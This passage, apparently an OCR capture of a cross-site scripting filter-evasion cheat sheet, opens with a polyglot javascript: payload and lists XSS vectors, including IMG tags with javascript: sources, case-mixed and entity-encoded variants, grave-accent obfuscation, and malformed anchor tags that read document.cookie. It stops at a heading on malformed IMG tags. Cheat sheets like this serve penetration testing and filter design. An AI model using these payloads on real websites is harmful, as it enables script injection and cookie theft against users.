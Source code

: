     ` `[`javascript:/*--></title></style></textarea></script></xmp><svg/onload='+/"/+/onmouseover=1/+/`](javascript:/*--%3E%3C/title%3E%3C/style%3E%3C/textarea%3E%3C/script%3E%3C/xmp%3E%3Csvg/onload='+/%22/+/onmouseover=1/+/)`[*/[]/+alert(1)//'>`

## Image XSS using the JavaScript directive

Image XSS using the JavaScript directive (IE7.0 doesn't support the
JavaScript directive in context of an image, but it does in other
contexts, but the following show the principles that would work in other
tags as well:

    <IMG SRC="javascript:alert('XSS');">

## No quotes and no semicolon

    <IMG SRC=javascript:alert('XSS')>

## Case insensitive XSS attack vector

    <IMG SRC=JaVaScRiPt:alert('XSS')>

## HTML entities

The semicolons are required for this to work:

    <IMG SRC=javascript:alert(&amp;quot;XSS&amp;quot;)>

## Grave accent obfuscation

If you need to use both double and single quotes you can use a grave
accent to encapsulate the JavaScript string - this is also useful
because lots of cross site scripting filters don't know about grave
accents:

    ``<IMG SRC=`javascript:alert("RSnake says, 'XSS'")`>``

## Malformed A tags

Skip the HREF attribute and get to the meat of the XXS... Submitted by
David Cross \~ Verified on Chrome

    \<a onmouseover="alert(document.cookie)"\>xxs link\</a\>

or Chrome loves to replace missing quotes for you... if you ever get
stuck just leave them off and Chrome will put them in the right place
and fix your missing quotes on a URL or script.

    \<a onmouseover=alert(document.cookie)\>xxs link\</a\>

## Malformed IMG tags
